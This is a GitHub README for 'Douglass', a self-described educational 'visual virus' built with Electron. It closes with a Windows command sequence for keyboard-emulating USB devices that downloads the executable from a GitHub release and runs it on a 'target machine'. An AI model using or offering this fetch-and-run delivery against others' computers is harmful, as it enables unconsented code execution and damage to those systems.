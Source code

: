 # Douglass
Simple visual virus developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This virus is for academic purposes, the use of this software is your responsibility.
- As it's a virus, it may cause damage to your computer.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```